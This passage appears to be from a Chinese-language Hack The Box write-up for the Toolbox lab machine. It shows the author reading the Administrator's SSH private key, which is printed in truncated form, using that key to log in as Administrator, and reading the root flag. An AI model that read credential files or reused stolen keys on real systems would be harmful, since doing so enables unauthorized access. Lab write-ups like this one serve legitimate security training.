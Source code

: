 cd Users
root@box:/c/Users# ls                                                          
ls
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony
root@box:/c/Users# cd Administrator                                            
cd Administrator
root@box:/c/Users/Administrator/.ssh# cat id_rsa                               
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4S...lznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----

```

ssh连接后拿到flag
```
┌──(root㉿kali)-[~/htb/Toolbox]
└─# ssh Administrator@10.10.10.236 -i id_rsa 
The authenticity of host '10.10.10.236 (10.10.10.236)' can't be established.
ED25519 key fingerprint is SHA256:KJAib23keV2B8xvFaxg7e79uztryW+LYX+Wb2qA9u4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.236' (ED25519) to the list of known hosts.
Microsoft Windows [Version 10.0.17763.1039]          
(c) 2018 Microsoft Corporation. All rights reserved. 
                                                     
administrator@TOOLBOX C:\Users\Administrator>cd Desktop 

administrator@TOOLBOX C:\Users\Administrator\Desktop>dir 
 Volume in drive C has no label.                      
 Volume Serial Number is 64F8-B588                    
                                                      
 Directory of C:\Users\Administrator\Desktop          
                                                      
02/08/2021  11:39 AM    <DIR>          .              
02/08/2021  11:39 AM    <DIR>          ..             
02/08/2021  11:39 AM                35 root.txt       
               1 File(s)             35 bytes         
               2 Dir(s)   5,468,209,152 bytes free    
                                                      
administrator@TOOLBOX C:\Users\Administrator\Desktop>type root.txt 
cc9a0b76ac17f8f475250738b96261b3    
```